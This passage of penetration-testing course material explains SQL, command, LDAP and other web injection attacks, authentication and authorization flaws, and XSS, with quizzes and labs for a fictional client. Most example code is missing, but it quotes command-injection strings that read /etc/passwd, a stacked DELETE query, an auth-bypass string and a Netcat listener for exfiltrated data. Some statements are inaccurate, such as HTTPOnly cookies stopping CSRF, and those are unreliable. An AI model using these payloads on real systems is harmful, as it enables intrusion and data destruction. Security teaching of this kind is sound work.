- In-band SQL injection: With this type of injection, the attacker obtains the data by using the same channel that is used to inject the SQL code. This is the most basic form of an SQL injection attack, where the data is dumped directly in a web application (or web page).
- Out-of-band SQL injection: With this type of injection, the attacker retrieves data using a different channel. For example, an email, a text, or an instant message could be sent to the attacker with the results of the query; or the attacker might be able to send the compromised data to another system.
- Blind (or inferential) SQL injection: With this type of injection, the attacker does not make the application display or transfer any data; rather, the attacker is able to reconstruct the information by sending specific statements and discerning the behavior of the application and database.
To perform an SQL injection attack, an attacker must craft a syntactically correct SQL statement (query). The attacker may also take advantage of error messages coming back from the application and might be able to reconstruct the logic of the original query to understand how to execute the attack correctly. If the application hides the error details, the attacker might need to reverse engineer the logic of the original query.
There are essentially five techniques that can be used to exploit SQL injection vulnerabilities:
- Union operator: This is typically used when an SQL injection vulnerability allows a SELECT statement to combine two queries into a single result or a set of results.
- Boolean: This is used to verify whether certain conditions are true or false.
- Error-based technique: This is used to force the database to generate an error in order to enhance and refine an attack (injection).
- Out-of-band technique: This is typically used to obtain records from the database by using a different channel. For example, it is possible to make an HTTP connection to send the results to a different web server or a local machine running a web service.
- Time delay: It is possible to use database commands to delay answers. An attacker may use this technique when he or she doesn't get output or error messages from the application.
It is possible to combine any of the techniques mentioned above to exploit an SQL injection vulnerability. For example, an attacker may use the union operator and out-of-band techniques.
SQL injection can also be exploited by manipulating a URL query string, as demonstrated here:
This vulnerable application then performs the following SQL query:
The attacker may then see a message specifying that there is no content available or a blank page. The attacker can then send a valid query to see if there are any results coming back from the application, as shown here:
Some web application frameworks allow multiple queries at once. An attacker can take advantage of that capability to perform additional exploits, such as adding records. The following statement, for example, adds a new user called omar to the users table of the database:
You can play with the SQL statement values shown here in Try-SQL Editor, at href="https://www.w3schools.com/sql/trysql.asp?filename=trysql_insert_colname" target="_blank">https://www.w3schools.com/sql/trysql.asp?filename=trysql_insert_colname.
Database Fingerprinting
In order to successfully execute complex queries and exploit different combinations of SQL injections, you must first fingerprint the database. The SQL language is defined in the ISO/IEC 9075 standard. However, databases differ from one another in terms of their ability to perform additional commands, their use of functions to retrieve data, and other features. When performing more advanced SQL injection attacks, an attacker needs to know what back-end database the application uses (for example, Oracle, MariaDB, MySQL, PostgreSQL).
One of the easiest ways to fingerprint a database is to pay close attention to any errors returned by the application, as demonstrated in the following syntax error message from a MySQL database:
You can obtain detailed information about MySQL error messages from href="https://dev.mysql.com/doc/refman/8.0/en/error-handling.html" target="_blank">https://dev.mysql.com/doc/refman/8.0/en/error-handling.html.
The following is an error from a Microsoft SQL database:
The following is an error message from a Microsoft SQL Server database with Active Server Page (ASP):
You can find additional information about Microsoft SQL Server database error codes at href="https://learn.microsoft.com/en-us/sql/relational-databases/errors-events/database-engine-events-and-errors" target="_blank">https://learn.microsoft.com/en-us/sql/relational-databases/errors-events/database-engine-events-and-errors.
The following is an error message from an Oracle database:
You can search for Oracle database error codes at https://docs.oracle.com/database/121/ERRMG/toc.htm.
The following is an error message from a PostgreSQL database:
There are many other database types and technologies. You can refer to a specific database vendor's website to obtain more information about the error codes for that type of database.
If you are trying to fingerprint a database, and there is no error message from the database, you can try using concatenation, as shown here:
The UNION Exploitation Technique
The SQL UNION operator is used to combine the result sets of two or more SELECT statements, as shown here:
By default, the UNION operator selects only distinct values. You can use the UNION ALL operator if you want to allow duplicate values.
You can practice using the UNION operator interactively with the Try-SQL Editor tool, at https://www.w3schools.com/sql/sql_union.asp.
Attackers may use the UNION operator in SQL injections attacks to join queries. The main goal of this strategy is to obtain the values of columns of other tables. The following is an example of a UNION-based SQL injection attack:
In this example, the attacker joins the result of the original query with all the credit card numbers in the payments table.
Figure 6-11 shows an example of using a UNION operand in the WebGoat vulnerability application to simulate an SQL injection attack. The example shows the following string entered in the web form:

The following is an example of a UNION-based SQL injection attack using a URL:
Booleans in SQL Injection Attacks
The Boolean technique is typically used in blind SQL injection attacks. In blind SQL injection vulnerabilities, the vulnerable application typically does not return an SQL error, but it could return an HTTP 500 message, a 404 message, or a redirect. It is possible to use Boolean queries against an application to try to understand the reason for such error codes.
Figure 6-12 shows an example of a blind SQL injection using the intentionally vulnerable DVWA application.

Try this yourself by downloading DVWA or by deploying WebSploit Labs at websploit.org.
Out-of-Band Exploitation
The out-of-band exploitation technique is very useful when you are exploiting a blind SQL injection vulnerability. You can use database management system (DBMS) functions to execute an out-of-band connection to obtain the results of the blind SQL injection attack. Figure 6-13 shows how an attacker could exploit a blind SQL injection vulnerability at store.h4cker.org and then force the victim server to send the results of the query (compromised data) to another server (malicious.h4cker.org).

Say that the malicious SQL string is as follows:
In this example, the attacker is using the value 8 combined with the result of Oracle's function UTL_HTTP.request.
To perform this attack, you can set up a web server such as NGINX or Apache or use Netcat to start a listener (for example, nc -lvp 80). One of the most common uses of Netcat for penetration testing involves creating reverse and bind shells. A reverse shell is a shell initiated from the victim's system to the attacker. A bind shell is set up on the victim's system and "binds" to a specific port to listen for an incoming connection from the attacker. A bind shell is often referred to as a backdoor.
For cheat sheets that can help you get familiar with different useful commands and utilities (including Netcat), see http://h4cker.org/cheat. You will learn more about Netcat and reverse and bind shells in Module 8, "Performing Post-Exploitation Techniques."
Stacked Queries
In a normal SQL query, you can use a semicolon to specify that the end of a statement has been reached and what follows is a new one. This technique allows you to execute multiple statements in the same call to the database. UNION queries used in SQL injection attacks are limited to SELECT statements. However, stacked queries can be used to execute any SQL statement or procedure. A typical attack using this technique could specify a malicious input statement such as the following:
The vulnerable application and database process this statement as the following SQL query:
The Time-Delay SQL Injection Technique
When trying to exploit a blind SQL injection, the Boolean technique is very helpful. Another trick is to also induce a delay in the response, which indicates that the result of the conditional query is true.
The time-delay technique varies from one database type/vendor to another.
The following is an example of using the time-delay technique against a MySQL server:
In this example, the query checks whether the MySQL version is 8.x and then forces the server to delay the answer by 10 seconds. The attacker can increase the delay time and monitor the responses. The attacker could even set the sleep parameter to a high value since it is not necessary to wait that long and then just cancel the request after a few seconds.
Surveying a Stored Procedure SQL Injection
A stored procedure is one or more SQL statements or a reference to an SQL server. Stored procedures can accept input parameters and return multiple values in the form of output parameters to the calling program. They can also contain programming statements that execute operations in the database (including calling other procedures).
If an SQL server does not sanitize user input, it is possible to enter malicious SQL statements that will be executed within the stored procedure. The following example illustrates the concept of a stored procedure:
By entering omar or 1=1' somepassword in a vulnerable application where the input is not sanitized, an attacker could obtain the password as well as other sensitive information from the database.
In Module 10, you will learn about tools such as Burp Suite, BeEF, and SQLmap, which can help automate the assessment of a web application and help you find SQL injection vulnerabilities.
You can use tools such as SQLmap to automate an SQL injection attack. SQLmap comes installed by default in Kali Linux and Parrot OS. In addition, you can download it from href="https://sqlmap.org/" target="_blank">https://sqlmap.org and install it on any compatible Linux system.
SQL Injection Mitigations
Input validation is an important part of mitigating SQL injection attacks. The best mitigation for SQL injection vulnerabilities is to use immutable queries, such as the following:
- Static queries
- Parameterized queries
- Stored procedures (if they do not generate dynamic SQL)
Immutable queries do not contain data that could get interpreted. In some cases, they process the data as a single entity that is bound to a column without interpretation.
The following are two examples of static queries:
The following are examples of parameterized queries:
OWASP has a great resource that explains the SQL mitigations in detail; see href="https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet" target="_blank">https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet.
The OWASP Enterprise Security API (ESAPI) is another great resource. It is an open-source web application security control library that allows organizations to create lower-risk applications. ESAPI provides guidance and controls that mitigate SQL injection, XSS, CSRF, and other web application security vulnerabilities that take advantage of input validation flaws. You can obtain more information about ESAPI from href="https://owasp.org/www-project-enterprise-security-api/" target="_blank">https://owasp.org/www-project-enterprise-security-api/.
6.4.3 Practice — SQL Injection Attacks
Match the types of SQL injection attack to the descriptions.
| Attack Type | Description |
|---|---|
| A — In-band SQL injection | With this type of injection, the attacker obtains the data from the web application. |
| B — Inferential SQL injection | With this type of injection, the attacker can reconstruct the information by sending specific statements and discerning the behavior of the application and database. |
| C — Out-of-band SQL injection | With this type of injection, the attacker retrieves data by email, text, or instant message. |
What is the purpose of performing database fingerprinting?
Match the SQL injection techniques to the descriptions.
| Technique | Description |
|---|---|
| A — Time delay | This technique uses database commands to delay answers. An attacker can use this method to verify that injected queries are valid. |
| B — Boolean | This technique is used to verify whether certain conditions are true or false. |
| C — Out-of-band technique | This technique is typically used to obtain records from the database by using a different communications channel. |
| D — Error-based technique | This technique forces the database to generate an error to enhance and refine an attack (injection). |
| E — Union operator | This technique is typically used when an SQL injection vulnerability allows a UNION statement to combine two SELECT statements into a single injected query. |
An attacker used the following SQL statement toward a database
application:SELECT * FROM IT_Admins WHERE customer_id=1; DELETE FROM IT_Admins
Which
type of SQL injection attack was performed?
6.4.4 Command Injection Vulnerabilities
A command injection is an attack in which an attacker tries to execute commands that he or she is not supposed to be able to execute on a system via a vulnerable application. Command injection attacks are possible when an application does not validate data supplied by the user (for example, data entered in web forms, cookies, HTTP headers, and other elements). The vulnerable system passes that data into a system shell.
With command injection, an attacker tries to send operating system commands so that the application can execute them with the privileges of the vulnerable application.
Command injection is not the same as code execution and code injection, which involve exploiting a buffer overflow or similar vulnerability.
Command injection against web applications is not as popular as it used to be because modern application frameworks have better defenses against these attacks. Figure 6-14 shows an example of command injection using the intentionally vulnerable DVWA application.
In Figure 6-14, the website allows a user to enter an IP address to perform a ping test to that IP address, but the attacker enters the string 192.168.78.6;cat /etc/passwd to cause the application to show the contents of the file /etc/passwd.

OWASP provides a good explanation of how command injection works at href="https://www.owasp.org/index.php/Command_Injection" target="_blank">https://www.owasp.org/index.php/Command_Injection.
6.4.5 Practice — Command Injection Vulnerabilities
A scan of the Pixel Paradise website has identified a hidden web page. Apparently,
the IT staff uses it to troubleshoot connectivity to the Apache webserver that hosts the corporate web site.
The form allows the user to ping outside websites. You are curious about whether this input is protected from
injection attacks, so you enter the following text into the form:
198.51.100.5;cat /etc/passwd
What vulnerability will this test for?
6.4.6 Lightweight Directory Access Protocol (LDAP) Injection Vulnerabilities
LDAP injection vulnerabilities are input validation vulnerabilities that an attacker uses to inject and execute queries to LDAP servers. A successful LDAP injection attack can allow an attacker to obtain valuable information for further attacks on databases and internal applications.
LDAP is an open application protocol that many organizations use to access and maintain directory services in a network. The LDAP protocol is defined in RFC 4511.
Similar to SQL injection and other injection attacks, LDAP injection attacks leverage vulnerabilities that occur when an application inserts unsanitized user input (that is, input that is not validated) directly into an LDAP statement. By sending crafted LDAP packets, attackers can cause the LDAP server to execute a variety of queries and other LDAP statements. LDAP injection vulnerabilities could, for example, allow an attacker to modify the LDAP tree and modify business-critical information.
There are two general types of LDAP injection attacks:
- Authentication bypass: The most basic LDAP injection attacks are launched to bypass password and credential checking.
- Information disclosure: An attacker could inject crafted LDAP packets to list all resources in an organization's directory and perform reconnaissance.
6.4.7 Lab — Injection Attacks
Because SQL injection attacks can be very damaging and very common, we are obligated to detect and investigate these vulnerabilities on the Pixel Paradise web applications. We would be failing our customer if we did not test for it.
You need more practice with vulnerability scanning tools, so let's focus on the discovery of SQL injection vulnerabilities. You should be prepared to exploit these vulnerabilities as part of a test if the pentesting agreement permits it. Pixel Paradise has provided us with access to their dev environment to run our tests during a prearranged time window so they can revert any damage we might cause through our efforts.
In this lab, you will complete the following objectives:
- Part 1: Exploit an SQL Injection Vulnerability on DVWA
- Part 2: Research SQL Injection Mitigation
Select play to watch a demonstration of the lab.
You are starting to test the Pixel Paradise digital storefront application for SQL
injection vulnerabilities. You submit the single quote character (') into the product
search field and receive the message:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for
the right syntax to use near "'" at line 1.
What does this indicate? (Choose two.)
6.5 Exploiting Authentication-Based Vulnerabilities
6.5.1 Overview
If you haven't looked recently, check out the OWASP Top 10. At the top of the 2021 list is Broken Access Control. It moved up from fifth to first place since 2017. This tells us that authentication-related vulnerabilities are a big problem. We need to be sure that the Pixel Paradise web site and web applications are not vulnerable.
There are a couple of different types of authentication vulnerabilities, and it is important that we check for all of them to the extent that a threat actor likely would. Since Pixel Paradise's products are all digital, it is very important that we investigate any possibility for unauthorized access, and check to see how far an intruder can get into the network once they gain access. Hopefully, the servers on which they keep builds of their new games are well-secured. In addition, we need to verify that only paying customers can access game downloads from the web storefront.
An attacker can bypass authentication in vulnerable systems by using several methods. The following are the most common ways to take advantage of authentication-based vulnerabilities in an affected system:
- Credential brute forcing
- Session hijacking
- Redirecting
- Exploiting default credentials
- Exploiting weak credentials
- Exploiting Kerberos
6.5.2 Session Hijacking
A web session is a sequence of HTTP request and response transactions between a web client and a server. The process includes the steps illustrated in Figure 6-15.

A large number of web applications keep track of information about each user for the duration of the web transactions. Several web applications have the ability to establish variables such as access rights and localization settings. These variables apply to each and every interaction a user has with the web application for the duration of the session. For example, Figure 6-16 shows Wireshark being used to collect a packet capture of a web session to cnn.com. You can see the different elements of a web request (such as GET) and the response. You can also see localization information (in this case, Raleigh, NC) in a cookie.

As you learned earlier in this module, applications can create sessions to keep track of users before and after authentication.
Once an authenticated session has been established, the session ID (or token) is temporarily equivalent to the strongest authentication method used by the application, such as username and password, one-time password, client-based digital certificate, and so on.
A good resource that provides a lot of information about application authentication is the OWASP Authentication Cheat Sheet, available at href="https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html" target="_blank">https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html.
In order to keep the authenticated state and track users' progress, applications provide users with a session ID, or token. This token is assigned at session creation time and is shared and exchanged by the user and the web application for the duration of the session. The session ID is a name/value pair.
There are multiple mechanisms available in HTTP to maintain session state within web applications, such as cookies (in the standard HTTP header), URL parameters and rewriting (defined in RFC 3986), and URL arguments on GET requests. Application developers also use body arguments on POST requests. For example, they can use hidden form fields (HTML forms) or proprietary HTTP headers.
One of the most widely used session ID exchange mechanisms is cookies. Cookies offer advanced capabilities that are not available in other methods. Figure 6-17 illustrates session management and the use of cookies.

The session ID names used by the most common web application development frameworks can be easily fingerprinted. For example, it is possible to easily fingerprint these development frameworks and languages by using the following session ID names:
- PHP: PHPSESSID
- J2EE: JSESSIONID
- ColdFusion: CFID and CFTOKEN
- ASP.NET: ASP.NET_SessionId
It is recommended to change the default session ID name of the web development framework to a generic name, such as id. The session ID must be long enough to prevent brute-force attacks. Sometimes developers set it to just a few bits, but the session ID must be at least 128 bits (16 bytes). Also, the session ID must be unique and unpredictable. It's a good idea to use a cryptographically secure pseudorandom number generator (PRNG) because the session ID value must provide at least 256 bits of entropy.
Sometimes the session ID is included in the URL. This dangerous practice can lead to the manipulation of the ID or session fixation attacks.
Web development frameworks such as ASP.NET, PHP, and Ruby on Rails provide their own session management features and associated implementation.
It is recommended to use these built-in frameworks rather than build your own from scratch since they have been tested by many people. Unfortunately, when you perform pen testing, you are likely to find people trying to create their own frameworks.
This is pretty obvious, but you have to remember to encrypt an entire web session with HTTPS – not only for the authentication process where the user credentials are exchanged but also to ensure that the session ID is exchanged only through an encrypted channel. Using an encrypted communication channel also protects the session against some session fixation attacks, in which the attacker is able to intercept and manipulate the web traffic to inject (or fix) the session ID on the victim's web browser.
There are two types of cookies: non-persistent (or session) cookies and persistent cookies. If a cookie has a Max-Age or Expires attribute, it is considered a persistent cookie and is stored on disk by the web browser until the expiration time.
Configuring a cookie with the HTTPOnly flag forces the web browser to have this cookie processed only by the server, and any attempt to access the cookie from client-based code or scripts is strictly forbidden. This protects against several type of attacks, including CSRF.
Modern applications typically track users after authentication by using non-persistent cookies. This forces the session information to be deleted from the client if the current web browser instance is closed. It is important to use non-persistent cookies so the session ID does not remain in the web client cache for long periods of time. In addition, this is why it is important to validate and verify session IDs, as covered earlier in this module.
There are several ways an attacker can perform session hijacking and several ways a session token may be compromised:
- Predicting session tokens: This is why it is important to use non-predictable tokens, as previously discussed in this section.
- Session sniffing: This can occur through collecting packets of unencrypted web sessions.
- On-path attack (formerly known as man-in-the-middle attack): With this type of attack, the attacker sits in the path between the client and the web server. In addition, a browser (or an extension or a plugin) can be compromised and used to intercept and manipulate web sessions between the user and the web server. This browser-based attack was previously known as a man-in-the-browser attack.
If web applications do not validate and filter out invalid session ID values, they can potentially be used to exploit other web vulnerabilities, such as SQL injection (if the session IDs are stored on a relational database) or persistent XSS (if the session IDs are stored and reflected back afterward by the web application).
XSS is covered later in this module.
6.5.3 Practice — Session Hijacking
You are checking for session hijacking vulnerabilities by following a checklist of best practices that web application developers should follow when implementing session IDs. What should you be looking for? (Choose three.)
6.5.4 Redirect Attacks
Unvalidated redirects and forwards are vulnerabilities that an attacker can use to attack a web application and its clients. The attacker can exploit such vulnerabilities when a web server accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. The attacker can modify the untrusted URL input and redirect the user to a malicious site to either install malware or steal sensitive information.
It is also possible to use unvalidated redirect and forward vulnerabilities to craft a URL that can bypass application access control checks. This, in turn, allows an attacker to access privileged functions that he or she would normally not be permitted to access.
Unvalidated redirect and forward attacks often require a little bit of social engineering.
6.5.5 Default Credentials
A common adage in the security industry is "Why do you need hackers, if you have default passwords?" Many organizations and individuals leave infrastructure devices such as routers, switches, wireless access points, and even firewalls configured with default passwords.
Attackers can easily identify and access systems that use shared default passwords. It is extremely important to always change default manufacturer passwords and restrict network access to critical systems. A lot of manufacturers now require users to change the default passwords during initial setup, but some don't.
Attackers can easily obtain default passwords and identify Internet-connected target systems. Passwords can be found in product documentation and compiled lists available on the Internet. An example is href="http://www.defaultpassword.com/" target="_blank">http://www.defaultpassword.com, but there are dozens of other sites that contain default passwords and configurations on the Internet. It is easy to identify devices that have default passwords and that are exposed to the Internet by using search engines such as Shodan ( href="https://www.shodan.io/" target="_blank">https://www.shodan.io).
6.5.6 Kerberos Vulnerabilities
In Module 5, "Exploiting Wired and Wireless Networks," you learned that one of the most common attacks against Windows systems is the Kerberos golden ticket attack. An attacker can use such an attack to manipulate Kerberos tickets based on available hashes. The attacker only needs to compromise a vulnerable system and obtain the local user credentials and password hashes. If the system is connected to a domain, the attacker can identify a Kerberos ticket-granting ticket (KRBTGT) password hash to get the golden ticket.
Another weakness in Kerberos implementations is the use of unconstrained Kerberos delegation, a feature that allows an application to reuse the end-user credentials to access resources hosted on a different server. Typically, you should only allow Kerberos delegation on an application server that is ultimately trusted. However, this could have negative security consequences if abused, so Active Directory has Kerberos delegation turned off by default.
Refer to Module 5 for additional information on the Kerberos authentication process and the flaws mentioned here.
6.5.7 Practice — Kerberos Vulnerabilities
Match the authentication-based vulnerabilities to their descriptions.
| Vulnerability | Description |
|---|---|
| A — Session hijacking | Attackers may use several ways, including predicting session tokens and sniffing, to exploit this vulnerability. |
| B — Default credentials | Attackers can exploit this vulnerability by searching product documentation and compiled lists online for passwords that are used for initial product setup. |
| C — Kerberos weakness | Attackers may exploit the weakness of the security protocol used in Windows systems to authenticate service requests between two or more hosts. |
| D — Redirection | Attackers can exploit this vulnerability when a web server accepts untrusted input that could cause the web application to send requests to a URL contained within that input. |
6.5.8 Lab — Using Password Tools
Passwords can be a real problem. Weak, common, and guessable passwords are in widespread use, mainly because users don't want to keep track of more complex passwords. Organizations establish policies that specify the length and complexity of acceptable passwords, but this can make users unhappy and can result in more frequent password reset requests. In small or medium-sized organizations, especially ones that employ a lot of creative people, sometimes password policies are loosely enforced or non-existent.
Passwords are usually encrypted for storage. Modern encryption algorithms are difficult to reverse, so tables and word lists of commonly used passwords have been compiled from collections of stolen credentials that are available on the dark web. These tables can really speed up password cracking. We have a few favorite word lists and rainbow tables that we use at Protego.
We need to look carefully at authentication-related vulnerabilities at Pixel Paradise, especially around password strength and storage. There are many popular tools for reversing passwords that are stored as hashes. In this lab, you will get to know three of them. If we can get access to password files, we are likely to be able to reverse some of the stored hashes to recover the passwords in clear text. From there, we can potentially compromise many systems.
In this lab, you will complete the following objectives:
- Part 1: Investigate Password Attacks
- Part 2: Crack Hashes with Hashcat Dictionary Attacks
- Part 3: Crack Hashes with John the Ripper Using Dictionary and Brute Force Attacks
- Part 4: Crack Hashes using RainbowCrack and Rainbow Tables
Select play to watch a demonstration of the lab.
What does John the Ripper do if it can't crack a hash with its minimal word list file?
6.6 Exploiting Authorization-Based Vulnerabilities
6.6.1 Overview
Authorization concerns the actions that users are permitted to do. While users might successfully authenticate to a system with their username and password, they may not be allowed to access certain resources, change or delete data, or change system settings. Only users with appropriate authorization are allowed to do these things.
Users of web applications are frequently able to interact with the application without being authenticated. It is assumed that these users are only authorized to do normal user actions like submitting search queries, adding comments, registering for email notifications, etc. However, there are vulnerabilities that enable unauthenticated users to do things that only authenticated system administrators or developers are authorized to do.
We can test for these vulnerabilities. Our engagement with Pixel Paradise includes testing their web applications for authorization-based vulnerabilities.
Two of the most common authorization-based vulnerabilities are parameter pollution and Insecure Direct Object Reference vulnerabilities. The following sections provide details about these vulnerabilities.
6.6.2 Parameter Pollution
HTTP parameter pollution (HPP) vulnerabilities can be introduced if multiple HTTP parameters have the same name. This issue may cause an application to interpret values incorrectly. An attacker may take advantage of HPP vulnerabilities to bypass input validation, trigger application errors, or modify internal variable values.
HPP vulnerabilities can lead to server- and client-side attacks.
An attacker can find HPP vulnerabilities by finding forms or actions that allow user-supplied input. Then the attacker can append the same parameter to the GET or POST data – but with a different value assigned.
Consider the following URL:
This URL has the query string search and the parameter value cars. The parameter might be hidden among several other parameters. An attacker could leave the current parameter in place and append a duplicate, as shown here:
The attacker could then append the same parameter with a different value and submit the new request:
After submitting the request, the attacker could analyze the response page to identify whether any of the values entered were parsed by the application. Sometimes it is necessary to send three HTTP requests for each HTTP parameter. If the response from the third parameter is different from the first one – and the response from the third parameter is also different from the second one – this may be an indicator of an impedance mismatch that could be abused to trigger HPP vulnerabilities.
The OWASP Zed Attack Proxy (ZAP) tool can be very useful in finding HPP vulnerabilities. You can download it from https://github.com/zaproxy/zaproxy. You will learn more about the OWASP ZAP tool later in this module and in Module 10.
6.6.3 Practice — Parameter Pollution
You are investigating the security of a web application and want to determine if the application is vulnerable to HTTP parameter pollution attacks (HPP). Which URL would you use to attempt an HPP exploit?
6.6.4 Insecure Direct Object Reference Vulnerabilities
Insecure Direct Object Reference vulnerabilities can be exploited when web applications allow direct access to objects based on user input. Successful exploitation could allow attackers to bypass authorization and access resources that should be protected by the system (for example, database records, system files). This type of vulnerability occurs when an application does not sanitize user input and does not perform appropriate authorization checks.
An attacker can take advantage of Insecure Direct Object References vulnerabilities by modifying the value of a parameter used to directly point to an object. In order to exploit this type of vulnerability, an attacker needs to map out all locations in the application where user input is used to reference objects directly.
Let's go over a few examples on how to take advantage of this type of vulnerability. The following example shows how the value of a parameter can be used directly to retrieve a database record:
In this example, the value of the customerID parameter is used as an index in a table of a database holding customer contacts. The application takes the value and queries the database to obtain the specific customer record. An attacker may be able to change the value 1188 to another value and retrieve another customer record.
In the following example, the value of a parameter is used directly to execute an operation in the system:
In this example, the value of the user parameter (omar) is used to have the system change the user's password. An attacker can try other usernames and see if it is possible to modify the password of another user.
Mitigations for this type of vulnerability include input validation, the use of per-user or session Indirect Object References, and access control checks to make sure the user is authorized for the requested object.
6.6.5 Practice — Insecure Direct Object Reference Vulnerabilities
You want to determine if a web application has authorization-based vulnerabilities. Which two exploits would you attempt in order to identify such vulnerabilities? (Choose two.)
6.7 Understanding Cross-Site Scripting (XSS) Vulnerabilities
6.7.1 Overview
Cross-site scripting (XSS) is a type of injection attack in which web applications accept malicious scripts that are often appended to a URL or inserted into user-supplied text that is displayed to all visitors to a web page. Injection attacks are among the top security risks in the OWASP Top 10, with XSS a major contributor. We must check for XSS vulnerabilities when we are hired to test web application security.
Pixel Paradise runs a storefront web application to sell games and collectable merchandise to fans of its products. It also accepts reviews of its products from its customers. We need to determine that these applications are not vulnerable to XSS. Read this material and do the lab to learn more about these vulnerabilities and some approaches for testing for them.
Cross-site scripting (XSS) vulnerabilities, which have become some of the most common web application vulnerabilities, are achieved using the following attack types:
- Reflected XSS
- Stored (persistent) XSS
- DOM-based XSS
Successful exploitation could result in installation or execution of malicious code, account compromise, session cookie hijacking, revelation or modification of local files, or site redirection.
The results of XSS attacks are the same regardless of the vector.
You typically find XSS vulnerabilities in the following:
- Search fields that echo a search string back to the user
- HTTP headers
- Input fields that echo user data
- Error messages that return user-supplied text
- Hidden fields that may include user input data
- Applications (or websites) that display user-supplied data
The following example shows an XSS test that can be performed from a browser's address bar:
The following example shows an XSS test that can be performed in a user input field in a web form:
Attackers can use obfuscation techniques in XSS attacks by encoding tags or malicious portions of the script using Unicode so that the link or HTML content is disguised to the end user browsing the site.
6.7.2 Reflected XSS Attacks
Reflected XSS attacks (that is, non-persistent XSS attacks) occur when malicious code or scripts are injected by a vulnerable web application using any method that yields a response as part of a valid HTTP request. An example of a reflected XSS attack is a user being persuaded to follow a malicious link to a vulnerable server that injects (reflects) the malicious code back to the user's browser. This causes the browser to execute the code or script. In this case, the vulnerable server is usually a known or trusted site.
Examples of methods of delivery for XSS exploits are phishing emails, messaging applications, and search engines.
Figure 6-18 illustrates the steps in a reflected XSS attack.
